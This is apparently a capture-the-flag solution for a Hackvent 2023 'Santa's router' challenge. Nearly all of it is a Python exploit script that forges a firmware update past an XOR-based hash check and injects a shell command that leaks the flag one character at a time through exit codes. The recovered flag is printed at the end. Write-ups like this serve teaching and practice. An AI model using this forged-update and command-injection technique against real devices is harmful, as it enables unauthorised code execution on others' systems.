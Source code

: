 [solve.py:](./13-santas-router-source/solve.py)
```py
import base64
from io import BytesIO
import zipfile
from pwn import *

def hashFile(fileContent:bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    return hash

r = remote('localhost', 1337)

r.sendlineafter(b'$', b'version')
r.recvuntil(b'Signature: ')
signature = r.recvline()[:-1]

flag = ' '

while flag[-1] != '\0':
    payload = f'''exit $(printf '%d' "'$(cat flag | cut -c {len(flag)})")'''   # payload sent to the server
    with BytesIO() as buffer:
        with zipfile.ZipFile(buffer, 'a', zipfile.ZIP_DEFLATED) as zip_file:
            zip_file.writestr('start.sh', payload)
        # Rewind the buffer to the beginning before reading its content
        buffer.seek(0)
        newZipContent = buffer.read()

    with open('firmware.zip', 'rb') as f:
        hashOld = hashFile(f.read())
        hashNew = hashFile(newZipContent)
        difference = hashOld ^ hashNew          # Calculate the difference in the hash
        diffBytes = bytes([(difference & (255 << 8*j)) >> 8*j for j in range(8)])       # Calculate the bytes to fix the hash
        newZipContent = diffBytes+newZipContent     # Zip's actually don't care about data in the beginning
        zipEncodedData = base64.b64encode(newZipContent)

    r.sendlineafter(b'$', b'update')
    r.sendlineafter(b'>', zipEncodedData)
    r.sendlineafter(b'>', signature)

    flag += chr(int(r.recvline().strip().split()[-1].decode()))

print(f'Flag: {flag}')
```

Flag: **HV23{wait_x0r_is_not_a_secure_hash_function}**
